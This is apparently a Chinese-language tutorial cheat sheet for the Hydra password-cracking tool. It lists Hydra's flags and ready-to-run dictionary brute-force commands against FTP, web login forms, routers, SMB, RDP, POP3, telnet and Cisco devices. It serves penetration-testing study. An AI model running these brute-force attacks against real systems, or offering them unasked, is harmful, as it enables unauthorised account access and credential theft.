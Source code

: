 ### Hydra

#### 语法

```text
语法：Hydra 参数 IP 服务
```

#### 参数

```bash
参数：
-l  login 小写，指定用户名进行破解
-L  file 大写，指定用户的用户名字典
-p  pass 小写，用于指定密码破解，很少使用，一般采用密码字典。
-P  file 大写，用于指定密码字典。
-e  ns 额外的选项，n：空密码试探，s：使用指定账户和密码试探
-M  file 指定目标ip列表文件，批量破解。
-o  file 指定结果输出文件
-f  找到第一对登录名或者密码的时候中止破解。
-t  tasks 同时运行的线程数，默认是16
-w  time 设置最大超时时间，单位
-v / -V 显示详细过程
-R  恢复爆破（如果破解中断了，下次执行 hydra -R /path/to/hydra.restore 就可以继续任务。）
-x  自定义密码。
```

```
service：指定服务名，支持的服务跟协议有：telnet，ftp，pop3等等。
注意：
1.自己创建字典,然后放在当前的目录下或者指定目录。
2.参数可以统一放在最后，格式比如hydra ip 服务 参数。
3.如果能确定用户名一项时候，比如web登录破解，直接用 -l就可以，然后剩余时间破解密码。
4.缺点，如果目标网站登录时候需要验证码就无法破解。
5.man hydra最万能。
6.或者hydra -U http-form等查看具体帮助。
```



#### 简单使用

```bash
root@kali:/mnt# hydra -L user.txt -P password.txt -t 2 -vV -e ns 192.168.154.131 ssh
```

#### 各种协议破解汇总

**FTP协议破解**

```bash
破解ftp：
 
hydra -L 用户名字典 -P 密码字典 -t 6 -e ns IP地址 -v
```

**http协议破解**

```bash
get方式提交，破解web登录：
 
hydra -L 用户名字典 -P 密码字典 -t 线程 -v -e ns IP地址 http-get /admin/
hydra -L 用户名字典 -P 密码字典 -t 线程 -v -e ns -f IP地址 http-get /admin/index.php
 
post方式提交，破解web登录：
 
hydra -f -l 用户名 -P 密码字典 -V -s 9900 IP地址 http-post-form "/admin/index.php?action=login:user=USER&pw=PASS:"
 
 
#/index.php …这个是登录的 url
#后门是POST的数据 其中的用户名密码使用 USER PASS 来代替
#然后是如果登录出错 会出现的字符 。。。然后开始破解
```

**https协议破解**

```bash
破解https
 
hydra -m /index.php -l 用户名 -P 密码字典.txt IP地址 https
```

**路由器破解**

```bash
hydra -l admin -x 6:10:1a.~!@#$%^&()-= -t 8 192.168.1.1 http-get /
-l admin 为尝试破解的用户名。
 
# -x 6:10:1a. 表示枚举的密码由 数字、小写字母和单字符’.'等等组成，长度为 6 - 10 位。-t 8 表示分 8 个并行任务进行爆破尝试。192.168.1.1 为 Router 地址。http-get 为破解方式（协议）
```

**http-proxy协议破解**

```bash
破解http-proxy：
 
hydra -l admin -P 字典.txt http-proxy://IP地址
```

**smb破解**

```bash
破解smb：
 
hydra -l 用户名字典 -P 密码字典 IP地址 smb
```

**Windows远程桌面**

```bash
破解rdp(windows远程登录)：
 
hydra ip地址 rdp -l administrator -P 密码字典.txt -V
```

**邮箱pop3**

```bash
破解邮箱pop3：
 
hydra -l 用户名 -P 密码字典.txt my.pop3.mail pop3
```

**telnet破解**

```bash
hydra ip地址 telnet -l 用户字典.txt -P 密码字典.txt -t 32 -s 23 -e ns -f -V
```

**语音通讯工具teamspeak**

```bash
hydra -l 用户名字典 -P 密码字典.txt -s 端口号 -vV ip teamspeak
```

**cisco**

```bash
hydra -P 密码字典 IP地址 cisco
hydra -m cloud -P 密码字典 IP地址 cisco-enable
```





